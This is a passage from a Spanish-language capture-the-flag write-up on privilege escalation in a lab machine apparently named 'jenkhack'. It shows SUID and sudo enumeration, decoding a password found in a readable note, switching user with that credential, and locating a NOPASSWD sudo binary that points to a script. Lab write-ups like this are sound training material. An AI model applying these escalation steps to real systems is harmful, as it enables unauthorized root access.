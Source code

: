 ## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l # Sin resultado
find / -perm -4000 2>/dev/null # No encrontamos nada.
```

Tenemos un archivo que pertenece a root pero que tenemos capacidad de lectura:
```bash
cat /var/www/jenkhack/note.txt 

jenkhack:C1V9uBl8!'Ci*`uDfP
```

[CyberChef](https://gchq.github.io/CyberChef/#input=QzFWOXVCbDghJ0NpKmB1RGZQ) Usamos esta web para decodificar esa cadena: y nos reporta que es: **( jenkinselmejor )**

**Hallazgos Clave:**
- Binario con privilegios: `[ /var/www/jenkhack/note.txt ]`
- Credenciales de usuario: `[ jenkhack ]:[ jenkinselmejor ]`
### Explotacion de Privilegios

###### Usuario `[ jenkins ]`:

```bash
# Comando para escalar al usuario: ( jenkhack )
su jenkhack ( jenkinselmejor )
```

###### Usuario `[ jenkhack ]`:

Listamos los privilegios:
```bash
sudo -l

User jenkhack may run the following commands on 71c44529a7a4:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash # Tenemos una via potencial de escalar a root
```

Listando los permisos vemos que tenemos un archivo:
```bash
 ls -l /usr/local/bin/bash
-rwxr-xr-x 1 root root 16032 Sep  1  2024 /usr/local/bin/bash
```

Listando cadenas legibles de este archivo:
```bash
strings /usr/local/bin/bash
```

Vemos que apunta a esta ruta:
```bash
/opt/bash.sh
```
